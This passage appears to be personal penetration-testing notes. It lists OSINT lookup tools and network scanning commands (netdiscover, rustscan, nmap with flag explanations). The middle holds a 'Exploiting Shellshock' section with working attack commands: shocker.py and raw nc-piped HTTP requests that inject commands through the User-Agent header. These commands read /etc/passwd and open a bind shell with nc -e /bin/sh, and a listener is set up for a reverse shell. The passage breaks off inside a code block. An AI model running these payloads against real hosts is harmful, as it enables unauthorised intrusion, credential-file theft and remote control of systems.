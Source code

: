 - [namechk](https://namechk.com/) / [whatsmyname](https://whatsmyname.app/) / [namecheckup](https://namecheckup.com/) - OSINT use accounts around the web
- [maltego](https://sectools.org/tool/maltego/) - data mining application

- Exploiting Shellshock

    ```bash
    git clone https://github.com/nccgroup/shocker
    ```

    ```bash
    ./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
    ```

    cat file (view file contents)

    ```bash
    echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
    ```

    Shell Shock run bind shell

    ```bash
    echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
    ```

    Shell Shock reverse Shell

    ```bash
    nc -l -p 443
    ```

# Scanning

- arp-scan (Kali) - gives all IP's on NAT
- netdiscover (Kali) - show live IP's

    ```bash
    sudo netdiscover -r 10.0.0.0/24
    ```

- [rustscan](https://github.com/RustScan/RustScan#-usage) - Scans all 65k ports in 3 seconds and pipe them to NMAP

    ```bash
    rustscan -a 127.0.0.1 -- -A -sC 
    #it's like running nmap -Pn -vvv -p $PORTS -A -sC 127.0.0.1
    ```

- nmap

    ```bash
    nmap -T4 -p- -A 192.168.249.128
    nmap -sV -sC -O FILENAME IP
    nmap -sU -sV --script=vuln #search vulnarabilities
    #T4: speed 1-5, prefered 4, 
    #-p-: scan all 65K ports, 
    #-A: all information possible, 
    #-sS: stealth mode is running by default, it means that we do not establish a connection, instead after ACK we send a reset (SYN→SYNACK→RST)
    #-sV: find versions
    #-sc: default script
    #-O: output to file
    ls /usr/share/nmap/scripts/* | grep ftp #Search nmap scripts for keywords
